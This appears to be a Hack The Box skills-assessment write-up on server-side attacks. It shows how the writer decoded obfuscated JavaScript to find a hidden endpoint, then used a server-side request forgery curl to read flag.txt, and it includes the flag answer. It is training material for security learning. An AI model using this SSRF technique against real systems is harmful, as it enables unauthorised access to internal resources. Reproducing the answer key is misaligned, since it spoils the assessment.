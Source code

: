 # Server-Side Attacks - Skills Assessment

You are currently participating in a bug bounty program. The company participating in the program is most interested in critical flaws such as injection flaws, logic flaws, and server-side attacks. Server-side attacks are the most desirable and lucrative bug listed in this particular program.

Start by performing all required footprinting activities to obtain as much information as possible regarding the target's tech stack. Then, mount any applicable server-side attack(s) against the target and answer the questions below to complete the skills assessment and finish this module.

**Questions**

Read the content of 'flag.txt' through a server-side attack without registering an account and submit its content as your answer. Answer format: HTB{String}

```bash
#view-source:http://94.237.58.148:43096/static/jquery.js
#change the code from the jquery to print woot
function dec(str) {
	var w = atob(str);
	return w.split("").reverse().join("");
}
function getmessage() {
	var x = "Ly86cHR0aA==";
	var y = "dHNvaC5ub2l0YWNvbC53b2RuaXc=";
	var z = "dHh0LmVnYXNzZW0vMDgwODoxLjAuMC43MjEvLzpwdHRoPXQzM2w/M000M2wxRnQ0aFR0M0cv";
	var woot = dec(x) + eval(dec(y)) + dec(z);
	console.log(woot);
}
#https://jsconsole.com/
getmessage()
#http:///G3tTh4tF1l34M3?l33t=http://127.0.0.1:8080/message.txt
#http://94.237.58.148:43096/G3tTh4tF1l34M3?l33t=http://127.0.0.1:8080
curl http://94.237.58.148:43096/G3tTh4tF1l34M3?l33t=http://127.0.0.1:8080/flag.txt
HTB{Th4tW4sL33t1snt1t?}
```
